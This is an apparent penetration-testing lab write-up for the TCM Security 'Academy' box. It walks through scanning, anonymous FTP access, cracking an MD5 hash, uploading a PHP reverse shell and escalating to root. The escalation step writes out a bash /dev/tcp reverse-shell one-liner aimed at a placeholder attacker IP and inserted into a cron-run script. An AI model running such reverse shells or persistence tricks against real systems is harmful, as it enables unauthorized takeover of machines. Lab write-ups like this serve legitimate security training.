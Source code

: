 # Academy Box - Provided by TCM Security

- Box has IP address `10.0.2.10`

## Scanning and Enumeration 
- Running nmap scan against target machine

    ![Nmap Results](2022-03-03-22-37-33.png)

- Interest findings 
  - Port `21/tcp - ftp - Anonymous FTP login allowed - vsftpd 3.0.3`
  - Port `22/tcp - SSH - OpenSSH 7.9p1 Debian` 
  - Port `80/tcp - http - Apache2 httpd 2.4.38`
  - OS details - `Linux 4.15 | 5.6`

- Since I found port `80` open, running `nikto` against target 
  
  ![Nikto results](2022-03-03-22-50-28.png)

- Also ran `Disbuster` 
  
  ![Dirbuster](2022-03-03-23-16-19.png)


## Research 
- `Anonymous FTP login allowed (FTP code 230)` was interesting in the results. 
  - Found this site - [Anonymous Login](https://vk9-sec.com/anonymous-login/)

## Exploitation

- Using `auxiliary/scanner/ftp/anonymous` module to detect anonymous FTP access

    ![Anonymous FTP](2022-03-03-22-56-35.png)
    
    - Results show anonymous login has `READ` permissions

- Used `anonymous` user to connect to FTP target machine 

    ![FTP Anonymous Connection](2022-03-03-23-01-59.png)

- I was able to get the `note.txt` from the target. These are the contents of it

    ![note.txt contents](2022-03-03-23-05-06.png)

- Grabbed the hash from the file and used `hash-identifier`, determined it was an `MD5` hash 

    ![hash-identifier](2022-03-03-23-09-19.png)

- Used `hashcat` to crack the hash which turned out to be `student`

    ![Hashcat](2022-03-03-23-15-16.png)

- Grabbed the Registration number from `note.txt` and the cracked password to login. 
- Once logged in was prompted to change password, so I went ahead and did that. 

![Logged in](2022-03-03-23-20-58.png)

- Used a [`php-reverse-shell`](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) by uploading it to the site using the photo upload 

![Uploaded File](2022-03-04-17-14-33.png)

- Set `netcat` to listen on the port the exploit uses 

  ![Popped Shell](2022-03-04-17-14-09.png)


## Privilege Escalation 
- Downloaded `linpeas.sh` and put it in a transfer folder. 
- Then used python to host a web server and then did `wget` on the victim machine 

  ![Attacker Web server](2022-03-04-17-26-57.png)

  ![Victim machine](2022-03-04-17-27-07.png)

- Ran `linpeas.sh` on the victim machine
- Found user `grimmie` and a password - was able to ssh using these credentials 

  ![SSH connection](2022-03-04-17-51-00.png)

- Found file `/home/grimmie/backup.sh` - and figured out it runs every minute 
- Added a bash reverse shell one-liner - `bash -i >& /dev/tcp/ATTACK_IP/PORT 0>&1`
- Set netcat to listen on port 

  ![Reverse Shell](2022-03-04-18-08-33.png)

- Executes as `root` and pops a `root` shell on the attacker machine 

  ![Root Shell](2022-03-04-18-11-27.png)

- Found `flag.txt`

  ![flag.txt](./screenshots/2022-03-04-18-12-52.png)